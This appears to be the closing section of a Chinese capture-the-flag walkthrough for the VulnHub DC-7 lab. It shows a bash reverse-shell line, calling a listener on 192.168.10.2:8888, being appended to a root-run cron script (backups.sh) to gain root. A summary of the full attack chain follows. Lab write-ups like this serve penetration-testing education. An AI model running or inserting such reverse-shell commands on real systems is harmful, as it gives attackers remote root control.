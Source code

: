 ![](D:\stu\vulnhub\DC靶场\pic-7\30.jpg)

# 提权至root

然后在该脚本的末尾加入反弹`shell`代码，不过需要在`kali`另起终端，监听8888端口

```shell
echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/8888 0>&1'" >> backups.sh
```

如果，这条命令不行，就可以在`https://forum.ywhack.com/shell.php`测试合适的，添加就是了

![](D:\stu\vulnhub\DC靶场\pic-7\31.jpg)

查看`flag`

![](D:\stu\vulnhub\DC靶场\pic-7\32.jpg)

> 这里补充说一下，对于脚本backups.sh，修改后，不要执行，一旦执行，是以当前用户的身份，也就是`www-data`执行的，是无法提权的。
>
> 这里我忘了放图了，在前面，我是借助工具`pspy64`获取到`backups.sh`会以`root`身份执行，只是时间间隔有点大，所以当时没有截图
>
> 该工具项目地址`https://github.com/DominicBreuker/pspy/releases`

# 总结

该靶场考察以下几点：

1. 对于信息收集时，源码泄露能否会寻找，这里是通过一个作者名搜索到`gihub`的项目
2. 对于提权时，发现的东西都要去试一试，这里先测试`exim4`不行后，再下手脚本文件
3. 对于脚本文件的所属者和所属组要搞清楚，这里`dc7user`不属于`www-data`组，所以还需要获取`www-data`用户的反弹`shell`，那么就需要从网站下手
4. 对于`drush`和`drupal`是配合使用的，所以简单了解`drush`的增删改查即可
5. `drupal 8`下载扩展模块，可以自己选择，不过出于安全，版本8没有`php`，所以可以安装`php`
6. 通过`php`中的函数，可执行命令，来获取`www-data`是`shell`
7. 通过`pspy64`观察有`root`执行的定时任务，并且是脚本`backups.sh`，用户`www-data`可修改。获取到`www-data`的`bash`后，就可以修改文件，添加反弹`shell`的命令，等待`root`去执行这个定时任务，触发脚本中的反弹`shell`代码

















